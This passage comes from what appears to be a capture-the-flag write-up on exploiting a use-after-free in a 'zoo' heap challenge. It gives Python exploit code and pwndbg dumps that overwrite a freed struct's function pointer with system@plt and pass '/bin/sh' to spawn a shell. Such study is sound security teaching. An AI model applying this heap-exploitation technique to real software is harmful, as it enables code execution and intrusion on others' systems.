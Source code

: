 Now if we add a new animal where `animal` struct chunk would be allocated earlier than `name` buffer chunk. What would happen now is that `<address1>` would was previously a chunk used for `name` buffer, would then be used for new `animal` struct chunk. `0x11d75320` previously used for `animal` struct, would then be used for new `name` buffer!!Which means we can overwrite the function pointer of a chunk having duo roles of being a `name` buffer as well as a `animal` struct since `zoo.animal[idx]` was not set to null when it was freed. Here the `idx` should be `2` if it was indeed the third `animal` being freed, i.e. if the ordering of freeing `animals` looks like the following in python script:
```py
add_animal("A" * 0x18)
add_animal("B" * 0x18)
add_animal("C" * 0x18)
add_animal("D" * 0x18)


remove_animal(b"0")
remove_animal(b"1")
remove_animal(b"2")
remove_animal(b"3")
```
### Getting "/bin/sh" into system
Now that we can overwrite `system` as the function pointer of a freed `animal` struct chunk that can still be called as the pointer from `zoo.animal[idx]` was not set to null. There's one more thing to be done, that is, getting "/bin/sh" into the `system` function as the first argument.   

Now let's go back to revise that:
```
zoo.animals[choice]->speak(zoo.animals[choice]->name);
```
in `report_name`, the `speak` action gets the `name` buffer as the first argument. Which means, what we need to do, is to turn our `name` buffer to be an address that points to `"/bin/sh"`. We can do this easily as we got `0x18` to write for the name buffer. In order words, we can overwrite the address that `name` field in the `animal` struct points to. after a padding of 8 bytes. Here is the visualization:
```
pwndbg> tele 0x6073310
00:0000│  0x6073310 ◂— 'BBBBBBBB!'
01:0008│  0x6073318 ◂— 0x21 /* '!' */
02:0010│  0x6073320 —▸ 0x401120 (system@plt) ◂— endbr64 
03:0018│  0x6073328 ◂— (8 bytes padding here to reach the name field)
04:0020│  0x6073330 —▸ 0x6073340 —▸ 0x6075293 ◂— 0 (name field here, we can change the address 0x6073340 to where our "/bin/sh" locates)
```
Here's how the exploit look like in python:
```py
add_animal("A" * 0x18)
add_animal("B" * 0x18)
add_animal("C" * 0x10 + "/bin/sh\x00")
add_animal("D" * 0x18)


remove_animal(b"0")
remove_animal(b"1")
remove_animal(b"2")
remove_animal(b"3")

sys_addr = 0x401120
add_animal(p64(sys_addr) + b'A' * 0x8 + b'\x50')
```
It is by pure observation that "/bin/sh\x00" would be located at heap chunk address ending with 0x350:
```
0x35308350 ◂— 0x68732f6e69622f /* '/bin/sh' */
```